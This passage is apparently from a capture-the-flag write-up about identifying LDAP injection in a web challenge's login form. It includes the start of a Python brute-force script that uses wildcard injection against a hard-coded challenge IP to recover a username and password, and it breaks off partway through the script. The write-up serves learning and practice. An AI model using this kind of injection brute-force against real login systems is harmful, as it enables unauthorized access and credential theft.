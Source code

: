 After searching about this exploit, I found a website, and it has a similar behavior as the Webapp.

<a href='https://www.netsparker.com/blog/web-security/ldap-injection-how-to-prevent' target='_blank'>How to prevent LDAP injection</a>

And I thought, may be it is a `LDAP Injection`<br>
And, it was absolutely new to me :)

After reading, it for quite a bit. I thought of writing another `Bruteforce script` for finding `username` and `password`

At first I thought that I have to find both `username` and `password` to solve the challenge, but in fact we actually don't require a username to solve the challenge XD

### Exploit Script :

```python
# Arijit-Bhowmick [sys41x4]

import requests
import time

url = "http://206.189.121.131:30184/login"

user_name, passwd =  "", ""

#data = {"username":user_name, "password":passwd} # For testing purpose

#num_characters = (48 - 57)
#alphabet_chr = (65-90)/(97-122)
#special_characters = (32–47 / 58–64 / 91–96 / 123–126)

char = ''

chr_num_dict= {97:122, 65:90, 48:57, 32:47, 58:64, 91:96, 123:126}

for start in chr_num_dict.keys():
	for j in range(start, chr_num_dict[start]+1):
		char+=chr(j)

char=char.replace("*", '')


def chr_selector(track):

	return char[track]


def cred_finder(cred_to_find):
	
	global user_name
	global passwd



	test_user = ''
	track = 0


	if cred_to_find == "user_name":

		pass_character = ''
		validate_usr = ''
		validate_pass = "*"

		try:
```